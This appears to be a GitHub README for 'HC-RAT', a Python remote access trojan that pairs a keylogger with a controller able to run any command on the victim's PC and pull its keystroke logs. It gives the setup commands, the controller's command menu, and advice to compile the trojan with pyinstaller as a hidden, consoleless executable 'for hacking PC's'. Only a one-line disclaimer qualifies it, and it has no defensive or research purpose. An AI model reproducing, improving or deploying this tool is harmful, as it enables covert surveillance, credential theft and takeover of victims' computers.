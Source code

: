 # HC-RAT
Hacker Community Remote Access Trojan
# Requirements
python 3.7>=

libs:

``
pip install pyrebase4
``

``
pip install keyboard
``

``
pip install colorama
``
# Usage
HC RAT is a RAT that contain two kinds of attacks. [keylogger](https://en.wikipedia.org/wiki/Keystroke_logging) and [RCE](https://www.bugcrowd.com/glossary/remote-code-execution-rce/)

first file HC.py is the virus that keylog and controller.py is the controller of rce and keylogging

Target computer:

``
python HC.py
``

Controller computer:

```
python controller.py

[FirstRat@HCn1 ~] $ help

 help               showing this message
 cd               navigate remoted pc (Please Note that you should only add path after cd        
 updateId               move to newest session
 delete               delete current database
 fileout               write keylog to pc
 (any command else)               RCE
```

 Use ``updateID`` to control and reach the newest session

 Use ``delete`` to delete database content

 Use ``fileout`` to write out on your PC the keylog of the targeted PC

 ``any command else`` will run on the command prompt of the hacked PC 

# NOTE 

I am not responsible of any inappropriate usage of this script

# Advice 

You can make the RAT executable that will be better for hacking PC's that doesnt contain Python.

You may compile this way:

```
pip install pyinstaller
pyinstaller HC.py --noconsole --onefile 
```

Leave a star in your Way out

ZeD_OnE
